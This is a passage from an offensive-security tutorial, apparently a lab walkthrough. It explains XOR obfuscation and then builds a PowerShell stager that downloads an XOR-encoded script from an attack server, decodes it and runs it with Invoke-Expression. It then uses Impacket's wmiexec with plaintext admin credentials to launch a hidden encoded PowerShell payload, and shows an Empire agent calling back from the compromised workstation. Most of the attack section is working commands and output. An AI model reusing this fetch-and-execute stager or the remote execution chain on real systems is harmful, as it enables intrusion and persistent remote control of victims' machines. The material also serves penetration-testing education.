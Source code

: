In binary, it looks like this:

```
D: 01010101
K: 00110011
---------------
E: 01100110
```

To reverse the process, XOR the encrypted data with the same key. Since XOR is its own inverse, performing D = E XOR K will return the original data D.

So, applying the XOR operation again:

```
E: 01100110
K: 00110011
---------------
D: 01010101
```

Hopefully this explains the gist of it in a clear way. And now the last parts of our code:

```
$encodedScript = $webClient.DownloadString("http://192.168.56.101:443/index.asp")
$decodedScript = [char[]]$encodedScript | ForEach-Object {
    $_ -bxor [char[]]$key[$index++ % $key.Length]
}
```

This downloads the encoded script from the specified URL and decodes the script using XOR decryption with the provided key.

```
Invoke-Expression ($decodedScript -join '')
```

Executes the decoded PowerShell script using Invoke-Expression.

To execute the stager on the compromised workstation, use wmiexec to run the PowerShell script. After running the command, we'll wait for a notification on the attack server:

```
root@backdoor:# wmiexec.py wk_admin:7stringsRockHell*@192.168.1.25
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
[*] SMBv3.0 dialect used
C:\>powershell.exe -NoP -sta -NonI -W Hidden -Enc
WwBTAFkAUwB0AGUAbQAuAE4AZQBUA[...]
```

The above command initiates the stager script, which connects back to our listener:

```
(Empire: stager/launcher) >
[+] Initial agent HRWTGSWH1H4TGHEK from 192.168.1.25 now active
```

At this point, we are connected to the workstation as wk_admin. Although this user is not part of the domain, they have administrative privileges on the workstation. Rename the agent to wk_agent for easier management:
